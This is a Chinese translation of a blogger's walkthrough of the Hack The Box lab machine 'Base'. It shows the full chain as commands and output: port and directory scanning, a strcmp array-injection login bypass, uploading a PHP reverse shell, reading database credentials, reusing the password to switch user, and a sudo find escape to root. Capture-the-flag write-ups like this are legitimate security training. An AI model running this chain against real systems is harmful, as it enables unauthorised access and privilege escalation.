






# 基地已经被 pwn 了！

> 原文：<https://medium.com/geekculture/base-has-been-pwned-621c5a835036?source=collection_archive---------45----------------------->


Base has been Pwned!

这是 Hack The Box 上起点类的最后一台机器。自从完成了上一台，我就一直期待着做这台机器。然而，按照传统的技术方式，我花了一晚上的时间试图找出为什么我的虚拟机总是崩溃。出于某种原因，它不断产生无效的内存地址寄存器。经过更新、重启和一些修补，它现在看起来很好。但这与此无关，所以让我们直接进入主题。

好的，首先，在生成机器之后，我们 ping 它以检查它是否在线。

```
[10.10.14.57]─[joe@parrot]─[/media/sf_E_DRIVE/OneDrive/Hack The Box/Machines/Base/Output]
└──╼ [★]$ sudo ping 10.10.10.48 | tee -a ping.10.10.10.48.txt
PING 10.10.10.48 (10.10.10.48) 56(84) bytes of data.
64 bytes from 10.10.10.48: icmp_seq=1 ttl=63 time=21.6 ms
64 bytes from 10.10.10.48: icmp_seq=2 ttl=63 time=20.5 ms
```

机器在和我们说话！我们需要它的地方就有它！是时候用 nmap 了。

```
[10.10.14.57]─[joe@parrot]─[/media/sf_E_DRIVE/OneDrive/Hack The Box/Machines/Base/Output]
└──╼ [★]$ sudo nmap -sC -sV -O -p0- 10.10.10.48 | tee -a nmap.10.10.10.48.txx
Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2021–09–14 17:41 BST
Nmap scan report for 10.10.10.48
Not shown: 65534 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|_ 256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
**80/tcp open http Apache httpd 2.4.29 ((Ubuntu))**
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn’t have a title (text/html)
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org](https://nmap.org)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

看起来我们有一个运行在 Ubuntu 上的网络服务器。在我查看网站之前，我将启动一个 dirb 扫描来检查任何感兴趣的目录。

```
[10.10.14.57]─[joe@parrot]─[/media/sf_OneDrive/Hack The Box/Machines/Base/Scripts]
└──╼ [★]$ sudo dirb [http://10.10.10.48](http://10.10.10.48) /usr/share/dirb/wordlists/big.txt -w
— — — — — — — -
DIRB v2.22 
By The Dark Raver
— — — — — — — — -
START_TIME: Tue Sep 14 22:51:33 2021
URL_BASE: [http://10.10.10.48/](http://10.10.10.48/)
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt
OPTION: Not Stopping on warning messages
 — — — — — — — — -
GENERATED WORDS: 20458
— — Scanning URL: [http://10.10.10.48/](http://10.10.10.48/) — — 
==> DIRECTORY: [http://10.10.10.48/_uploaded/](http://10.10.10.48/_uploaded/) 
==> DIRECTORY: [http://10.10.10.48/login/](http://10.10.10.48/login/) 
+ [http://10.10.10.48/server-status](http://10.10.10.48/server-status) (CODE:403|SIZE:276) 
==> DIRECTORY: [http://10.10.10.48/static/](http://10.10.10.48/static/) 
**— — Entering directory:** [**http://10.10.10.48/_uploaded/**](http://10.10.10.48/_uploaded/) **— — 
(!) WARNING: Directory IS LISTABLE. No need to scan it.** 
 (Use mode ‘-w’ if you want to scan it anyway)
**— — Entering directory:** [**http://10.10.10.48/login/**](http://10.10.10.48/login/) **— — 
(!) WARNING: Directory IS LISTABLE. No need to scan it.** 
 (Use mode ‘-w’ if you want to scan it anyway)
**- — Entering directory:** [**http://10.10.10.48/static/**](http://10.10.10.48/static/) **— — 
(!) WARNING: Directory IS LISTABLE. No need to scan it.** 
 (Use mode ‘-w’ if you want to scan it anyway)
==> DIRECTORY: [http://10.10.10.48/static/fonts/](http://10.10.10.48/static/fonts/) 
==> DIRECTORY: [http://10.10.10.48/static/images/](http://10.10.10.48/static/images/) 
```

有趣的是，看起来服务器被配置为允许目录列表。这是重大的安全疏忽。这允许我们浏览目录并确定文件结构。这个设置可以很容易地在服务器配置中更改，但是现在让我们利用这个弱点并四处窥探。



Base directory listing /login



Base directory listing /static

服务器上有一些有趣的目录和文件，其中一个名为 login.php.swp，包含以下 php 代码:

```
<?php
session_start();
if (!empty($_POST[‘username’]) && !empty($_POST[‘password’])) {
require(‘config.php’);
if (**strcmp**($username , $_POST[‘username’]) == 0) {
if (**strcmp**($password, $_POST[‘password’]) == 0) {
$_SESSION[‘user_id’] = 1;
header(“Location: upload.php”)
} else {
print(“<script>alert(‘Wrong Username or Password’)</script>”);
}} else {
print(“<script>alert(‘Wrong Username or Password’)</script>”);
}
```

看起来好像用户名和密码被放入一个短的[数组](https://www.php.net/manual/en/language.types.array.php)并用 [strcmp](https://www.php.net/manual/en/function.strcmp.php) 进行检查。通过拦截并改变 [Burp](https://portswigger.net/burp) 中的请求，我们可以用自己的数组来破坏语法，并可以导致应用程序行为不当，有希望绕过认证。首先，我们需要导航到站点并提交一个登录请求。然后，我们需要确保浏览器被配置为向 Burp 发送请求，并且启用了 Burp intercept。



Base web application login

第二，一旦 Burp 截获了请求，我们就需要稍微修改它来添加我们自己的空数组。在接收输入之前，需要将这些数组添加到用户名和密码的末尾。你可以从下面的截图中看到，我添加了一个左右方括号来添加数组。



Burp intercept array manipulation

最后，我们转发请求，以及后续的带有 Burp 的 set-cookie 请求，并等待 web 应用程序响应。我们被重定向到的页面是一个上传页面。我们从 dirb 结果中知道有一个 _uploaded 目录。如果我们假设这是文件上传放文件的地方，那么我们应该能够上传一个反向 shell 并从那里捕获它。


Base upload page

我使用了 [pentestermonkey 的](https://github.com/pentestmonkey/php-reverse-shell) PHP 反向 Shell，并上传到应用程序中。我启动了我的 netcat 监听器，然后卷曲 URL 来触发 PHP 反向 shell。

```
[10.10.14.57]─[joe@parrot]─[/media/sf_OneDrive/Hack The Box/Machines/Base/Scripts]
└──╼ [★]$ sudo curl [http://10.10.10.48/_uploaded/shell.php](http://10.10.10.48/_uploaded/shell.php)
```

不出所料。外壳起作用了，我得到了打开盒子的权限。在我们做任何事情之前，我们需要升级我们的 shell，所以让我们运行 Python 1 liner。

```
$ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@base:/$
```

既然这个问题已经解决了，让我们来看看其余的网站文件。当网站连接到数据库时，它们需要一个数据库配置文件。数据库配置文件包含可用于访问敏感信息的密码。还有其他像 htaccess 和 htpasswd 这样的文件也可能包含敏感信息，所以检查它们总是一个好主意。

```
www-data@base:/$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = “admin”;
$password = “**thisisagoodpassword**”;
```

【config.php】*沾沾自喜的露齿一笑加剧* 这个文件包含一个密码。我们知道这是登录应用程序所需的密码，但我们不知道它是否在系统的任何地方被重用过。记住这一点，让我们检查一下主目录，看看系统上有哪些用户。

```
www-data@base:/$ ls /home
john
www-data@base:/$ ls /home/john
user.txt
```

*对不起，约翰，但是看起来你今天会成为我们的受害者。我知道你是个可爱的家伙，但是如果你重复使用了你的密码，那你就活该被 pwn！(开玩笑，还是我？).*现在我们有了用户名和密码，让我们试着将用户切换到 john。

```
www-data@base:/$ su john
su john
Password: thisisagoodpassword
john@base:/$
```

约翰，我相信你，但你让我失望了。当我们在这里时，让我们从 johns 主目录中获取用户标志。

```
john@base:/$ cat /home/john/user.txt
cat /home/john/user.txt
0011000100110011<haXez>0011001100110111
```

这样一来，让我们看看如何提升我们的提供和抓住根标志。我们首先需要知道的是约翰能跑什么，*除了他在落地时的安全姿势*。

```
john@base:/$ id
uid=1000(john) gid=1000(john) groups=1000(john)john@base:/$ sudo -l
[sudo] password for john: thisisagoodpassword
Matching Defaults entries for john on base:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on base:
**(root : root) /usr/bin/find**
```

john 似乎有权以 root 用户身份运行 find 命令。*可惜他找不到更好的密码*。继续前进，我们应该检查 find 是否有任何逃脱的方法，就像我们用 man 命令执行的那个。为了做到这一点，我检查了网站 [GTFOBins](https://gtfobins.github.io/gtfobins/find/) ，它说下面的命令可以用来逃离一个受限制的外壳。希望这意味着它会把我们丢进一个根壳。

```
john@base:/$ sudo find . -exec /bin/sh \; -quit
# whoami
root
```

现在剩下要做的就是抓住根标志，我们完成了起点。

```
# cat /root/root.txt
0011000100110011<haXez>0011001100110111
```



Base has been Pwned!

这样一来，起点就完成了。是时候进入初学者轨道了。然而，看看我关于哈克斯的更多文章。



Starting Point has been Pwned!